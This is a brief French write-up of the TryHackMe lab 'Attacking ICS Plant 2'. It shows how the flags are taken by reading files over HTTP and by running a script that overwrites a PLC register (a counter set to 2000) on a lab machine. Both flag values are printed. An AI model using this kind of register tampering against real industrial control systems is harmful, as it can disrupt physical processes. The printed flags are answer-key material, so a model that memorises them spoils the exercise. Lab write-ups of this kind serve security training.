

# Attacking ICS Plant 2 #

## Task 1 Discovery ##



On télécharge les scripts pour le contrôle des automates.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ tar -xf scripts.tar.gz 

```
## Task 2 Flag 1 ##

**Read flag1.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://10.10.242.41/flag1.txt
0df2936b4cfbd5ce3ae91ef7021d925a
```
On attend un peu est on regarde un peut le flag1.txt.  

Le flag est : 0df2936b4cfbd5ce3ae91ef7021d925a   

## Task 3 Flag 2 ##

**Read flag2.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python set_registry.py 10.10.242.41 7 2000
im@kali:~/Bureau/tryhackme/write-up$ curl http://10.10.242.41/flag2.txt
fdee450ac6627276d115dd905a256d49
```

On modifie la valeur de la colonne 7 qui est un compteur à 2000.   
On regarde le flag2.txt.  
La flag est : fdee450ac6627276d115dd905a256d49   


